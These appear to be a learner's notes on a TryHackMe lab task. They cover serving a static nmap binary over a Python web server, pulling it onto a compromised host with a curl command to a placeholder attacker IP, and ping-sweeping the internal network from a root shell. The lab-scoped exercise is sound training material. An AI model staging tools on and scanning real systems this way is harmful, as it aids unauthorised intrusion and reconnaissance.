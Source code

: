 It's time to put your newfound knowledge to the test!

Download a [static nmap binary](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap). Rename it to `nmap-USERNAME`, substituting in your own TryHackMe username. Finally, upload it to the target in a manner of your choosing.

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Nmap binary):

`sudo python3 -m http.server 80`

Then, on the target:

`curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME`

![[Enumeration-20241212150151042.webp]]

---

Now use the binary to scan the network. The command will look something like this:

`./nmap-USERNAME -sn 10.x.x.1-255 -oN scan-USERNAME`

You will need to substitute in your username, and the correct IP range. For example:

`./nmap-MuirlandOracle -sn 10.200.72.1-255 -oN scan-MuirlandOracle`

Here the `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.  

Note that this would also work with CIDR notation (e.g. 10.x.x.0/24).  

Use what you've learnt to answer the following questions!

> [!Note]
>The host ending in `.250`is the OpenVPN server, and should be excluded from all answers. It is not part of the vulnerable network, and should not be targeted. The same goes for the host ending in `.1` (part of the AWS infrastructure used to create the network) -- this too is out of scope and should be excluded from all answers.



---

# Your job
After downloading nmap to the attacking machine:

- Rename nmap:
	`cp nmap nmap-KAIROS`

- On Kali (inside the directory containing your Nmap binary):

	`sudo python3 -m http.server 80`

- Then, on the target:
	- root@prod-serv ~]# `cd /tmp`
	- root@prod-serv tmp]# `./nmap-KAIROS -sn 10.200.84.1-255 -oN scan-KAIROS`
	![[Enumeration-20241212151823782.webp]]

There are the following valid IPs:

`10.200.84.100`
`10.200.84.150`

